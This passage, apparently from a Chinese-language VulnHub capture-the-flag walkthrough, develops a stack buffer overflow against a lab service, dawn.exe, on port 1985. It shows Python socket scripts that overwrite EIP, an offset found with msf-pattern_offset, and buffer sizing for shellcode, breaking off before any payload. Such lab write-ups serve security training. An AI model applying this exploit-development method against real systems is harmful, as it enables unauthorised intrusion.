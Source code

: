 ```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

![3](https://static.iihack.com/vulnhub/424/3.PNG)

运行后看到进程暂停，EIP为`316A4130`

使用msf-pattern_offset定位

```bash
$ msf-pattern_offset -l 300 -q 316A4130
[*] Exact match at offset 272
```

![4](https://static.iihack.com/vulnhub/424/4.PNG)



再次使用Immunity Debugger 打开dawn.exe并运行

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
buff = "A"*272
eip = "B" * 4
buffer = "C" * 24
nullByte = "\x00"
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

![5](https://static.iihack.com/vulnhub/424/5.PNG)

EIP写入成功

shellcode长度一般需要500，加上前期测试的300，共800长度。

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
buff = "A"*272
eip = "B" * 4
buffer = "C" * (800-len(buff) - len(eip))
nullByte = "\x00"
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```
